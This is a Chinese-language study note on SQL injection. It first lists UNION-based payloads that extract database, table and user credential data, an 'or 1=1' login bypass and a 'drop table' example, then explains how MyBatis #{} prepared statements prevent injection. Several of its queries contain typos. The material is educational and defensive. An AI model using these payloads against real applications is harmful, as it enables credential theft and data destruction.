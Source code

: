 ```yaml
---
title: SQL注入
categories:
- 系统安全
---
```

%27表示 单引号
可以将需要加引号的部分转成hes十六进制。

###数据库系统表介绍
>schemata -> 数据库信息
    schema_name    数据库名称
    查询所有数据库名：SELECT group_concat(schema_name) from information_schema.schema;

>tables -> 数据库和表的关系
    schema_name    数据库
    table_name    表名
    查询数据库中的所有表名：SELECT group_concat(table_name) from informat_schema.tables where table_schema='security';

>columns  -> 表和列的关系
    column_name    列名
    table_name    表名
    查询表中的所有字段名：SELECT group_concat(column_name) from information_schema.columns where table_name='users';

###基础sql注入攻击
**参数类型是数字**
获取当前数据库名称，发送请求参数如下进行注入：
id=-1 union select database()

获取所有数据库名称
id=-1 union select group_concat(schema_name) from information_schema.schemata

查询数据库中的所有表
id=-1 union select group_concat(table_name) from informat_schema.tables where table_schema=security

通过获取的数据库名，查询表中的信息
id=-1 union select username,password from database;

用于验证账号密码是否存在
select * from users where username=? and password=?;
经过sql注入后
select * from users where username='' or 1=1#' and password=md5('') ;
可以查询表中的所有数据。


**参数类型是字符串**
id=-1' union select id,name,password from security --+     最终放入sql语句时会在参数中添加两个单引号，需要在参数中添加单引号与第一个单引号进行配对，然后注释掉后面的内容，--是注释符，+最终会解析为空格符。



**判断表字段数**
SELECT * FROM menu ORDER BY 3;
表示按第三行进行排序，如果第三行不存在会报错。


###复杂的sql攻击注入
基于时间的盲注
布尔类型的盲注
Double Query
请求头注入
INSERT/UPDATE 注入
报错注入


###1、mybatis中的#和$的区别

1、#将传入的数据都当成一个字符串，会对自动传入的数据加一个双引号。
如：where username=#{username}，如果传入的值是111,那么解析成sql时的值为where username="111", 如果传入的值是id，则解析成的sql为where username="id".　
2、$将传入的数据直接显示生成在sql中。
如：where username=${username}，如果传入的值是111,那么解析成sql时的值为where username=111；
如果传入的值是;drop table user;，则解析成的sql为：select id, username, password, role from user where username=;drop table user;
3、#方式能够很大程度防止sql注入，$方式无法防止Sql注入。
4、$方式一般用于传入数据库对象，例如传入表名.
5、一般能用#的就别用$，若不得不使用“${xxx}”这样的参数，要手工地做好过滤工作，来防止sql注入攻击。
6、在MyBatis中，“\${xxx}”这样格式的参数会直接参与SQL编译，从而不能避免注入攻击。但涉及到动态表名和列名时，只能使用“\${xxx}”这样的参数格式。所以，这样的参数需要我们在代码中手工进行处理来防止注入。
【结论】在编写MyBatis的映射语句时，尽量采用“#{xxx}”这样的格式。若不得不使用“${xxx}”这样的参数，要手工地做好过滤工作，来防止SQL注入攻击。

### 2、什么是sql注入

　　[ sql注入解释](https://en.wikipedia.org/wiki/SQL_injection)：是一种代码注入技术，用于攻击数据驱动的应用，恶意的SQL语句被插入到执行的实体字段中（例如，为了转储数据库内容给攻击者）

**　　SQL****注入**，大家都不陌生，是一种常见的攻击方式。**攻击者**在界面的表单信息或URL上输入一些奇怪的SQL片段（例如“or ‘1’=’1’”这样的语句），有可能入侵**参数检验不足**的应用程序。所以，在我们的应用中需要做一些工作，来防备这样的攻击方式。在一些安全性要求很高的应用中（比如银行软件），经常使用将**SQL****语句**全部替换为**存储过程**这样的方式，来防止SQL注入。这当然是**一种很安全的方式**，但我们平时开发中，可能不需要这种死板的方式。



### mybatis是如何做到防止sql注入的

　　[MyBatis](https://mybatis.github.io/mybatis-3/)框架作为一款半自动化的持久层框架，其SQL语句都要我们自己手动编写，这个时候当然需要防止SQL注入。其实，MyBatis的SQL是一个具有“**输入+输出**”的功能，类似于函数的结构，参考上面的两个例子。其中，parameterType表示了输入的参数类型，resultType表示了输出的参数类型。回应上文，如果我们想防止SQL注入，理所当然地要在输入参数上下功夫。上面代码中使用#的即输入参数在SQL中拼接的部分，传入参数后，打印出执行的SQL语句，会看到SQL是这样的：
select id, username, password, role from user where username=? and password=?
　　不管输入什么参数，打印出的SQL都是这样的。这是因为MyBatis启用了预编译功能，在SQL执行前，会先将上面的SQL发送给数据库进行编译；执行时，直接使用编译好的SQL，替换占位符“?”就可以了。因为SQL注入只能对编译过程起作用，所以这样的方式就很好地避免了SQL注入的问题。

**mybatis是如何实现预编译的**
mybatis 默认情况下，将对所有的 sql 进行预编译。mybatis底层使用PreparedStatement，过程是先将带有占位符（即”?”）的sql模板发送至mysql服务器，由服务器对此无参数的sql进行编译后，将编译结果缓存，然后直接执行带有真实参数的sql。核心是通过#{ } 实现的。
在预编译之前，#{ } 解析为一个 JDBC 预编译语句（prepared statement）的参数标记符?。
```sql
//sqlMap 中如下的 sql 语句
select * from user where name = #{name};
//解析成为预编译语句
select * from user where name = ?;
```
```sql
//如果${ }，SQL 解析阶段将会进行变量替换。不能实现预编译。
select * from user where name = '${name}'
//传递的参数为 "ruhua" 时,解析为如下，然后发送数据库服务器进行编译。
select * from user where name = "ruhua";
```


### 结论
\#{}：相当于JDBC中的PreparedStatement
①预编译阶段可以优化 sql 的执行
预编译之后的 sql 多数情况下可以直接执行，DBMS 不需要再次编译，越复杂的sql，编译的复杂度将越大，预编译阶段可以合并多次操作为一个操作。可以提升性能。
②防止SQL注入
使用预编译，而其后注入的参数将不会再进行SQL编译。也就是说其后注入进来的参数系统将不会认为它会是一条SQL语句，而默认其是一个参数，参数中的or或者and 等就不是SQL语法保留字了。

\${}：是输出变量的值
\#{}是经过预编译的，是安全的；\${}是未经过预编译的，仅仅是取变量的值，是非安全的，存在SQL注入。
如果我们order by语句后用了\${}，那么不做任何处理的时候是存在SQL注入危险的。你说怎么防止，那我只能悲惨的告诉你，你得手动处理过滤一下输入的内容。如判断一下输入的参数的长度是否正常（注入语句一般很长），更精确的过滤则可以查询一下输入的参数是否在预期的参数集合中。
